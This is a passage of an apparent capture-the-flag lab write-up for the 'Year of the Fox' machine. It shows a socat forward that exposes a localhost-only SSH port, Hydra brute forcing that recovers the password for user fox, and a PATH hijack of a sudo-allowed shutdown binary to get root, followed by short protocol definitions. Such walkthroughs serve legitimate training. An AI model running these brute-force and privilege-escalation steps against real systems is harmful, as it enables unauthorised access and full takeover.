udp        0      0 10.10.163.252:68        0.0.0.0:*                          
udp        0      0 10.10.255.255:137       0.0.0.0:*                          
udp        0      0 10.10.163.252:137       0.0.0.0:*                          
udp        0      0 0.0.0.0:137             0.0.0.0:*                          
udp        0      0 10.10.255.255:138       0.0.0.0:*                          
udp        0      0 10.10.163.252:138       0.0.0.0:*                          
udp        0      0 0.0.0.0:138             0.0.0.0:*                          
raw6       0      0 :::58
www-data@year-of-the-fox:/var/www/html/assets/php$ cat /etc/ssh/sshd_config | grep 'Listen'

ListenAddress 127.0.0.1 
#ListenAddress ::

www-data@year-of-the-fox:/var/www/html/assets/php$ ss -tulwn

Netid State   Recv-Q  Send-Q          Local Address:Port     Peer Address:Port  
icmp6 UNCONN  0       0                      *%eth0:58                  *:*     
udp   UNCONN  0       0               127.0.0.53%lo:53            0.0.0.0:*     
udp   UNCONN  0       0          10.10.163.252%eth0:68            0.0.0.0:*     
udp   UNCONN  0       0               10.10.255.255:137           0.0.0.0:*     
udp   UNCONN  0       0               10.10.163.252:137           0.0.0.0:*     
udp   UNCONN  0       0                     0.0.0.0:137           0.0.0.0:*     
udp   UNCONN  0       0               10.10.255.255:138           0.0.0.0:*     
udp   UNCONN  0       0               10.10.163.252:138           0.0.0.0:*     
udp   UNCONN  0       0                     0.0.0.0:138           0.0.0.0:*     
tcp   LISTEN  0       128             127.0.0.53%lo:53            0.0.0.0:*     
tcp   LISTEN  0       128                 127.0.0.1:22            0.0.0.0:*     
tcp   LISTEN  0       50                    0.0.0.0:445           0.0.0.0:*     
tcp   LISTEN  0       50                    0.0.0.0:139           0.0.0.0:*     
tcp   LISTEN  0       50                       [::]:445              [::]:*     
tcp   LISTEN  0       50                       [::]:139              [::]:*     
tcp   LISTEN  0       128                         *:80                  *:* 
```

```bash
www-data@year-of-the-fox:/var/www/html/assets/php$ cd /tmp
www-data@year-of-the-fox:/tmp$ ls | grep 'socat'
socat
www-data@year-of-the-fox:/tmp$ ./socat TCP-LISTEN:11222,fork TCP:127.0.0.1:22
./socat TCP-LISTEN:11222,fork TCP:127.0.0.1:22
```

`nmap -sV -A -O $target_ip -p 11222 -oN port_11222_result.txt -T4`

```bash
PORT      STATE SERVICE VERSION
11222/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f5:29:75:5e:00:22:bc:56:45:9f:e6:b4:1b:99:ec:58 (RSA)
|   256 53:96:e8:9f:03:71:b0:f5:59:a8:52:d1:1d:83:35:e0 (ECDSA)
|_  256 00:89:1b:31:cb:0e:03:77:10:c3:7d:e5:39:b0:25:e1 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (93%), Linux 2.6.39 - 3.2 (93%), Linux 3.1 - 3.2 (93%), Linux 3.2 - 4.9 (93%), Linux 3.5 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

> **SSH Password Brute Force**
> 

`hydra -l fox -P /usr/share/wordlists/rockyou.txt -f -s 11222 yearofthefox.thm ssh`

```bash
[11222][ssh] host: yearofthefox.thm   login: fox   password: bubbles1
```

`crackmapexec ssh yearofthefox.thm -u fox -p /usr/share/wordlists/rockyou.txt --port 11222 -x 'whoami'`

```bash
[REDACTED] - SAME PASSWORD
```

> **Binary Analyze & Privilege Escalation**
> 

`ssh -o MACs=hmac-sha2-256 fox@yearofthefox.thm -p 11222`

```bash
fox@yearofthefox.thm's password: 

        __   __                       __   _   _            _____         
        \ \ / /__  __ _ _ __    ___  / _| | |_| |__   ___  |  ___|____  __
         \ V / _ \/ _` | '__|  / _ \| |_  | __| '_ \ / _ \ | |_ / _ \ \/ /
          | |  __/ (_| | |    | (_) |  _| | |_| | | |  __/ |  _| (_) >  < 
          |_|\___|\__,_|_|     \___/|_|    \__|_| |_|\___| |_|  \___/_/\_\

                                                                  
fox@year-of-the-fox:~$ whoami
fox
fox@year-of-the-fox:~$ id
uid=1000(fox) gid=1000(fox) groups=1000(fox),114(sambashare)
fox@year-of-the-fox:~$ pwd
/home/fox
fox@year-of-the-fox:~$ sudo -l
Matching Defaults entries for fox on year-of-the-fox:
    env_reset, mail_badpass

User fox may run the following commands on year-of-the-fox:
    (root) NOPASSWD: /usr/sbin/shutdown
fox@year-of-the-fox:~$ which python
/usr/bin/python
fox@year-of-the-fox:~$ cd /usr/sbin
fox@year-of-the-fox:/usr/sbin$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

`wget yearofthefox.thm:8000/shutdown -O shutdown`

```bash
shutdown                             100%[====================================================================>]   8.11K  --.-KB/s    in 0.009s  

2024-09-10 08:46:38 (921 KB/s) - ‘shutdown’ saved [8304/8304]

```

`strings -n 10 shutdown`

```bash
/lib64/ld-linux-x86-64.so.2
__cxa_finalize
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
[]A\A]A^A_
GCC: (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.7698
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
shutdown.c
__FRAME_END__
__init_array_end
__init_array_start
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
_ITM_deregisterTMCloneTable
system@@GLIBC_2.2.5
__libc_start_main@@GLIBC_2.2.5
__data_start
__gmon_start__
__dso_handle
_IO_stdin_used
__libc_csu_init
__bss_start
__TMC_END__
_ITM_registerTMCloneTable
__cxa_finalize@@GLIBC_2.2.5
.note.ABI-tag
.note.gnu.build-id
.gnu.version
.gnu.version_r
.eh_frame_hdr
.init_array
.fini_array
```

`r2 -AAAA shutdown`

```bash
[0x00000540]> pdf @main
            ; DATA XREF from entry0 @ 0x55d
┌ 19: int main (int argc, char **argv, char **envp);
│           0x0000064a      55             push rbp
│           0x0000064b      4889e5         mov rbp, rsp
│           0x0000064e      488d3d8f0000.  lea rdi, str.poweroff       ; 0x6e4 ; "poweroff" ; const char *string
│           0x00000655      e8c6feffff     call sym.imp.system         ; int system(const char *string)
│           0x0000065a      90             nop
│           0x0000065b      5d             pop rbp
└           0x0000065c      c3             ret
```

```bash
fox@year-of-the-fox:/usr/sbin$ cd /tmp
fox@year-of-the-fox:/tmp$ cp /bin/bash /tmp/poweroff
fox@year-of-the-fox:/tmp$ chmod +x /tmp/poweroff
fox@year-of-the-fox:/tmp$ export PATH=/tmp:$PATH
fox@year-of-the-fox:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
fox@year-of-the-fox:/tmp$ sudo /usr/sbin/shutdown
root@year-of-the-fox:/tmp# whoami
root
root@year-of-the-fox:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@year-of-the-fox:/tmp# 
```

# Appendix

## SMB (Server Message Block)

<aside>
💡

Server Message Block (SMB) is a network protocol used for sharing files, printers, and other resources between computers in a network. It allows computers to read and write to files, request services, and communicate with network devices like printers and servers. SMB is mainly used in Windows environments but is also supported by Linux and macOS systems. In a Windows domain, SMB allows centralized file sharing and resource access, with users authenticated via Active Directory. In the context of SMB (Server Message Block), a share refers to a network resource such as a file directory, printer, or device that is made available to other users or computers on the network.

</aside>

## SSH (Secure Shell)

<aside>
💡

SSH is a network protocol that provides secure access to a remote system over an insecure network. It is commonly used for remote login and command execution, allowing encrypted communication between a client and a server. SSH can be used to securely tunnel other protocols, allowing services like HTTP to be transmitted securely. SSH allows users to execute commands on remote machines as if they were local.

</aside>

## Socat (Socket CAT)

<aside>
💡

Socat is a command-line utility that establishes bidirectional data transfer between two data streams, which could be files, pipes, devices, or network sockets. It can handle a wide range of protocols (TCP, UDP, UNIX sockets) and can be used to connect or redirect traffic between different sources.

</aside>

## RPC (Remote Procedure Call)

<aside>
💡

RPC, or Remote Procedure Call, is a protocol that allows a program to execute a procedure (subroutine or function) on a remote server as if it were executing locally on the client's system. It abstracts the complexities of network communication, making remote calls appear seamless. A client program sends a request to the server, specifying the procedure it wants to invoke and any parameters needed. The RPC protocol transmits the request over a network. The server receives the request, executes the procedure, and processes the inputs. The result is sent back to the client, where it can be used like any local function call. RPC is widely used in distributed computing environments where different parts of an application run on different machines but need to communicate. A modern, high-performance RPC framework based on HTTP/2 and protocol buffers. Simple RPC implementations that use XML or JSON to format data.

</aside>